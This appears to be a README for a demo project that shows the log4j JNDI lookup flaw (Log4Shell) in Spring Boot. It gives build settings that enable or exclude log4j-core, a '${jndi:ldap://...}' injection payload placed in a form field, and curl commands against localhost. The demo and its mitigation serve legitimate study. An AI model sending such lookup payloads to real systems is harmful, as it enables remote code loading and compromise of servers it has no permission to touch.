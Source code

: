 ### log4j lookup problem demonstration for spring projects

#### This issue will not affect spring projects with default configurations. Spring uses a logback by default.

#### To use log4j you must exclude 'spring-boot-starter-logging' and include 'log4j'
    dependencies {
        implementation 'org.springframework.boot:spring-boot-starter-log4j2:2.5.1'
    }
    configurations {
        all*.exclude module: 'spring-boot-starter-logging'
    }

#### Don't forget only log4j-core impacted with this issue. You can stop this issue by excluding 'log4j-core'. 
    configurations {
        all*.exclude module: 'log4j-core'
    }

Use next method for investigations.

http://localhost:8080/api/infected-method
cardNumber: ${jndi:ldap://localhost:8082/api/long-wait}

####Curl request example
    
    curl --location --request GET 'localhost:8080/api/infected-method' --form 'cardNumber=${jndi:ldap://localhost:8082/api/long-wait}'
    
    curl --location --request GET 'localhost:8080/api/infected-method?cardNumber=%24%7Bjndi%3Aldap%3A%2F%2Flocalhost%3A8082%2Fapi%2Flong-wait%7D'
